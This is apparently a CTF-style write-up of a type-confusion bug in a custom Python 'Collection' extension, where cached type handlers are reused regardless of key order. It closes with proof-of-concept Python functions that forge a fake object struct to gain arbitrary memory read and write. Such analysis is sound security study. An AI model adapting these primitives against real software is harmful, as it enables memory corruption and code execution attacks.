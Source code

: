 ```
struct node{
	record* rec;
	node* next;
}
```

```
struct record{
	char* name;
	int type;
}
```

The Collection module provides a Collection class which is like a container. The __init__ method takes a dictionary whose keys must be all strings and properties must be one of the following: list, dictionary, python int (long).

Each Collection() has a type_handler, which is used to list what types it contains. type_handler has a list where each node contains information (name, type)

Now, the vulnerability lies in the fact that type_handler is cached and can be used by other Collections if the types are equal. What do you mean by types are equal? It is defined in a function called IsListEqual, and a new type handler is generated only if there is no matching cached type handler. When judging if a type_handler can be used for a Collection, the order of the objects do not matter. However when using the get() method to take out objects it matters, because based on what type an object is the extraction method differs. If we can make an object take a type_handler that is different from its types we can cause unexpected behavior to occur.

## Getting Arbitrary R/W

Below is the PoC. Let's think about how it's supposed to work.

```
def arbitrary_read(addr,start,end):
	fakestruct = p64(0xff)+p64(0x9ce7e0)+p64(0x200)+p64(0x201)+p64(addr)*2
	structaddr = id(fakestruct) + 0x48
	#print("[*] target: 0x%x"%addr)
	c1 = Collection.Collection({"a":[],"a\x00":structaddr})
	c2 = Collection.Collection({"a":structaddr,"a\x00":[]})#INT->LIST
	x = c2.get("a")#GET ARBITRARY ADDRESS AS AN OBJECT
	return x[start:end]
```

```
def arbitrary_write(addr,offset,ch):
	fakestruct = p64(0xff)+p64(0x9ce7e0)+p64(0x200)+p64(0x201)+p64(addr)*2
	structaddr = id(fakestruct) + 0x48
	#print("[*] target: 0x%x"%addr)
	c1 = Collection.Collection({"a":[],"a\x00":structaddr})
	c2 = Collection.Collection({"a":structaddr,"a\x00":[]})#INT->LIST
	x = c2.get("a")#GET ARBITRARY ADDRESS AS AN OBJECT
	x[offset]=ch
```

The PoC uses the vulnerability lying in the get method.
